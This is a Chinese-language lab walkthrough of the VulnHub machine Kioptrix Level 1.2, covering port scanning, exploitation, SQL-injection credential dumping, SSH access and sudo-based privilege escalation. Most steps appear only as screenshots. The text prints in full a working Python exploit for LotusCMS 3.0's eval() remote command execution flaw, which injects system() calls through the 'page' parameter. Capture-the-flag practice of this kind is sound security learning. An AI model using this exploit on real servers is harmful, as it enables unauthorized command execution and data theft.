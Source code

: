 +++
ShowToc = true
TocOpen = true
title = '0x028 Kioptrix Level 1.2'
date = 2024-10-11T14:25:59+08:00
draft = false
private = true
show_reading_time = true
categories = 'vulnhub'
+++



# 端口扫描

![](/vulnhub_img/WEBRESOURCEd82406e1ceb19328fc7b540808c2bbe5截图.png)

# 渗透

LotusCMS漏洞，利用脚本：

```
#!/usr/bin/python
# Lotus CMS 3.0 eval() Remote Command Execition Exploit
# flaw in router() function, original write-up: http://secunia.com/secunia_research/2011-21/
# Auther Vaibhav Joshi(https://twitter.com/vj0shii)
import sys,requests,os

def execute(URL):
    os.system("clear")
    print("\t--------------------------------------------------------------")
    print("\t|        Lotus CMS 3.0 eval() Remote Command Execition       |")
    print("\t--------------------------------------------------------------")
    print("\t| Reference : http://secunia.com/secunia_research/2011-21/   |")
    print("\t| By        : Vaibhav Joshi                                  |")
    print("\t--------------------------------------------------------------")
    while True:
        loginurl = URL+"index.php"
        command = raw_input("# ")
        if command == "exit":
            print("Goodbye!")
            exit(0)
        payload = "index');${system('"+command+"')};#"
        r = requests.post(loginurl,headers={'Content-Type': 'application/x-www-form-urlencoded'},data={'page': payload})
        text = r.text
        t = text.split("</html>")
        print(t[1])


def Verify(URL):
    r = requests.get(URL,allow_redirects=False)
    if r.status_code != 200:
        print("Url is not valid")
        exit(0)

try:
    print("\t--------------------------------------------------------------")
    print("\t|        Lotus CMS 3.0 eval() Remote Command Execition       |")
    print("\t--------------------------------------------------------------")
    print("\t| Reference : http://secunia.com/secunia_research/2011-21/   |")
    print("\t| By        : Vaibhav Joshi                                  |")
    print("\t--------------------------------------------------------------")
    if len(sys.argv) < 3:
        print("\t| Usage     : %s <IP> <PORT>                            |" % sys.argv[0])
        print("\t--------------------------------------------------------------")
        sys.exit()
    host = sys.argv[1]
    port = sys.argv[2]
    loc = raw_input("Enter Home page URI of CMS (Default /): ")
    if loc == "":
        loc = "/"
    URL = "http://" + host + ":" + port + loc
    Verify(URL)
    execute(URL)

except Exception as error:
    print 'Caught this error: ' + repr(error)
```

![](/vulnhub_img/WEBRESOURCE965e967ef8d2aab44edd44912a6ce454截图.png)

sql注入

![](/vulnhub_img/WEBRESOURCE5c69b0c7c9c858c2f9b444d3ef286d08截图.png)

脱裤，发现账号密码：

![](/vulnhub_img/WEBRESOURCE51c58f1012bc9ad265da29840fcdf7d2截图.png)

ssh直接连接报错:

![](/vulnhub_img/WEBRESOURCEf8608d45e3d78f5abed79787b502b801截图.png)

修复，添加一个配置文件即可：

![](/vulnhub_img/WEBRESOURCEd78f037969724992a47a7d2b24f619c2截图.png)

重新连接：

![](/vulnhub_img/WEBRESOURCE7ce1f1deb5d10f9b72c7f59df4716967截图.png)

# 提权

sudo -l 

![](/vulnhub_img/WEBRESOURCE8a35da98dbabbed0ffba9ad13f288bc8截图.png)

报错：

![](/vulnhub_img/WEBRESOURCE25b8fccb229b15bc41ac0c9ea9267662截图.png)

修复一下：

export TERM=xterm

![](/vulnhub_img/WEBRESOURCE978e57aafe89cd1d8eacdd65e1832730截图.png)

然后就是研究这个东西的用法了，按了半天的键盘，发现主要是靠F数字键进行使用的：

F3打开文件，编辑文件

![](/vulnhub_img/WEBRESOURCEe7dbac6862095f187fbc204233a0380b截图.png)

![](/vulnhub_img/WEBRESOURCE7d76fe6d3fa4d606db31244eeca10a29截图.png)